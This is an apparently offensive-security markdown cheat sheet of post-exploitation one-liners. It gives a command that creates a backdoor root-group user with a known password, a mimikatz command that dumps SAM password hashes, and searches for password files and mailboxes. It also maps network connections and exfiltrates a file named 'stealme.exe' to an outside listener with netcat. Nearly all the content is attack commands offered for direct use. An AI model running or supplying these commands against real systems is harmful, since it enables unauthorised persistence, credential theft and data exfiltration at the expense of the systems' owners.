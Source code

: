 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md">Top of Page</a> |
  <a href="/CheatSheets/effect.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Effect
* [One-liner: useradd and chpasswd](#one-liner-useradd-and-chpasswd)
* [Dump Passwords](#dump-passwords)
* [Find Password Files](#find-password-files)
* [Find Emailboxes](#find-emailboxes)
* [Get Network Connections](#get-network-connections)
* [Exfil via Netcat](#exfil-via-netcat)

## One-liner: useradd and chpasswd
```bash
useradd victor -g root -s /bin/bash && echo victor:1337 | chpasswd
```

## Dump Passwords
```bash
mimikatz.exe "lsadump::sam"
```

## Find Password Files
```bash
findstr /si password *.xml *.ini *.txt (Find passwords)
```

## Find Emailboxes
```bash
dir *.dbx /s 
```

## Get Network Connections
```bash
# all connections, no name resolution, and print owning PID 
netstat -ano 

# print filepath of each network-connected binary
(Get-NetTcpConnection).OwningProcess | ForEach-Object { Get-Process -Id $_ | Select-Object -ExpandProperty Path } | Sort-Object | Get-Unique
```

## Exfil via Netcat
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md">Top of Page</a> |
  <a href="/CheatSheets/effect.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
